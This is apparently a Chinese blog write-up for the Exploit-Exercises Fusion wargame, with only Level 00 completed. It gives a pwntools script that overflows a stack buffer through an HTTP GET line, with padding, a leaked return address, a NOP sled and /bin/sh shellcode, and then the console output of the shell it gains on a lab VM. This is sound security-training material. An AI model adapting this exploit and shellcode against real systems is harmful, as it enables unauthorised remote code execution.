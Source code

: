 +++
title = "Exploit-Exercise_Fusion全攻略+解析"
date = 2018-08-03T01:31:36+08:00
updated = 2020-08-07T02:01:26.829857+08:00
description = "解析猴年马月...没办法，太菜的人没法做输出..."
in_search_index = true

[taxonomies]
tags = [ "WARGAME", "PWN", "stackoverflow", "mitigation",]
categories = [ "WriteUp",]
archives = [ "archive",]
+++

目前进度：

- [x] Level 00
- [ ] Level 01
- [ ] Level 02
- [ ] Level 03
- [ ] Level 04
- [ ] Level 05
- [ ] Level 06
- [ ] Level 07
- [ ] Level 08
- [ ] Level 09
- [ ] Level 10
- [ ] Level 11
- [ ] Level 12
- [ ] Level 13
- [ ] Level 14


<!-- more -->
# Level 00

```python
#!/usr/bin/python
from pwn import *
import struct

shellcode = '\xb8\x2f\x73\x68\xf0\x25\xff\xff\xff\x0f\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'
prefix='GET '
postfix=' HTTP/1.1' 

r=remote('192.168.116.150', 20000)
r.recvuntil('er is at')
addr=int(r.recv()[0:11],16)
#print addr,hex(addr)
print hex(addr+200)
r.sendline(prefix+'G'*139+p32(addr+200)+postfix+'\x90'*100+shellcode)
r.interactive()
```



```bash
root@kali:~/Documents/Fusion# ./level00.py 
[+] Opening connection to 192.168.116.150 on port 20000: Done
0xbffff9c0
[*] Switching to interactive mode
$ id
uid=20000 gid=20000 groups=20000
```